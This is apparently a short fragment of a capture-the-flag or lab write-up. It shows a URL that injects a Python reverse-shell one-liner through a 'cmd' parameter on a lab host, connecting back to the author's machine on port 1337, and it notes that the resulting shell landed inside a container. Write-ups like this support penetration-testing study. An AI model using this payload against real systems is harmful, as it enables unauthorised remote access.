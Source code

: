 ![](./IMG/22.png)
- Access 
```
http://10.10.11.164/hello?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.13",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
- The terminate will get the reverse shell on my port 1337, and check the victim with this shell, I know I'm in the container now.
- It also means the upload web application run in Container.
